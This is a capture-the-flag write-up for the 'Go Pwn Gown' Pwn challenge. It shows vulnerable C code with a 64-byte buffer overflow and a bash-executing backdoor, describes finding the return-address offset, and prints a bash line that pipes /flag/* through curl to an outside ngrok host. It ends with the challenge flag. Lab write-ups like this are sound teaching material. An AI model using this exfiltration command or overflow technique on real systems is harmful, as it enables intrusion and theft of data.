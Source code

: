 # Go Pwn Gown (day7)

<p align="justify">This challenge was a Pwn challenge in which the goal was to perform a buffer overflow to read the flag stored on the server. Source code was provided with a docker file so that the server could have been ran locally, which revealed very helpful insofar as I had access to server logs. </p>

<p align="center"><img src="Screenshots/S1.png" alt="Desc"></p>

<p align="justify"> Looking at source code, it seemed that a backdoor was already included in the code of the running server. This backdoor shown in the snippet below could have been used to run command remotely : </p>

````c
void unsafeFunction(char *gown) {
    char buffer[64];
    memcpy(buffer, gown, 128); // UTF8 AMIRIGHT ?!
    printf("Received: %s\n", buffer);
}

void laluBackdoor() {
    char *bash_path = "/bin/bash";
    extern char **environ;
    execle(bash_path, bash_path, "-c", "echo $(${GOWN})", NULL, environ);
}
````

The flaw here is caused by the use of a buffer of size 64 in which 128 bytes are copied. To exploit it, I started by running the docker on my machine to adjust my payload using the logs. I developped a tiny C script avalible under exploit.c in this repo, to guess the number of chars I had to sent before overwritte ret address on the stack. 

<p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>

<p align="center"><img src="Screenshots/S3.png" alt="Desc"></p>

<p align="center"><img src="Screenshots/S4.png" alt="Desc"></p>

<p align="center"><img src="Screenshots/S5.png" alt="Desc"></p>

````bash
#!/bin/bash
cat /flag/* | curl -X POST --data @- http://6.tcp.eu.ngrok.io:13524/
````

Flag : _RM{OffenSkillSaysWhat2024YouGotGowned}_ , thanks _Laluka_ for this challenge !
